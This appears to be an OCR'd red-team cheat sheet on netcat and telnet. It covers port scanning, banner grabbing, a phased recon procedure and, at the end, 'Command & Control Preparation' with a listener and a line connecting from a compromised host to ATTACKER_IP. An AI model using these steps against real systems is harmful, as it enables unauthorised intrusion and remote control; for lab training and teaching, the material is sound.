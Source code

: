 ```bash
- Use only in controlled lab environments

# Netcat - Advanced Service Interaction
nc target.com 80                    # Basic connection
nc -v target.com 22                 # Verbose connection
echo "GET / HTTP/1.1" | nc target.com 80  # HTTP banner grabbing
NETCAT ADVANCED OPERATIONS
bash
# Listener Mode (Server)
nc -l -p 1234                      # Basic listener
nc -v -l -p 1234                   # Verbose listener
nc -v -n -l -p 1234                # No DNS resolution
nc -v -n -l -p 1234 -k             # Persistent after disconnect

# Client Mode
nc target.com 80                   # Basic client
nc -v target.com 22                # Verbose client
nc -z target.com 1-1000            # Port scanning

# Banner Grabbing & Service Identification
echo "HEAD / HTTP/1.1" | nc target.com 80
printf "GET / HTTP/1.0\r\n\r\n" | nc target.com 80
🛠️ RED TEAM OPERATIONAL PROCEDURES
PHASE 1: CONNECTIVITY VALIDATION
bash
# Target Availability Assessment
ping primary-target.com
traceroute primary-target.com

# Strategic Objectives:
- Confirm target system responsiveness
- Map network path and identify choke points
- Estimate network latency for timing considerations
PHASE 2: SERVICE DISCOVERY & ANALYSIS
bash
# Manual Service Probing
telnet target.com 80    # Web services
telnet target.com 22    # SSH access
telnet target.com 25    # Mail services
telnet target.com 53    # DNS services

# Service Identification
echo "GET / HTTP/1.1" | nc target.com 80    # Web server info
nc -v target.com 22                         # SSH version
PHASE 3: BANNER GRABBING & FINGERPRINTING
bash
# Comprehensive Service Analysis
for port in 21 22 23 25 53 80 110 443; do
    echo "Testing port $port"
    nc -v -w 2 target.com $port
done

# Intelligence Objectives:
- Identify service types and versions
- Discover software vulnerabilities
- Map attack surface
- Prepare for exploitation phase
PHASE 4: COMMUNICATION CHANNEL ESTABLISHMENT
bash
# Command & Control Preparation
nc -lvnp 4444                    # Listener setup
# From compromised system: nc ATTACKER_IP 4444

```
